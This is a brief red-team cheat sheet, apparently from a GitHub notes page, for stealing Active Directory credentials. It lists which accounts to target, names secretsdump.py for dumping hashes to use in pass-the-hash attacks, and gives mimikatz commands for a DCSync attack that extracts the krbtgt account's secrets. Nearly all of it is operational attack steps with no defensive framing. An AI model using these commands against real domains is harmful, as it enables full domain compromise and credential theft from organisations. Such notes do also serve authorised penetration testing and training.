 # Credentials to look for:

### 1) Local admin rights on several machines

### 2) Service accounts that have delegate permissions

### 3) Accounts used for privileged AD Services (SCCM,WSUS,Exchange,etc.)

### Secretsdump.py on an account that is synced with the domain controller to dump hashes to PtH attack.

### Privileges: Replicate Directory Changes, Replicate Directory Changes All

### Usually, Administrators, Domain Admins and Enterprise Admins have this privilege in their accounts.

### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::dcsync /user:KRBTGT_ACCOUNT

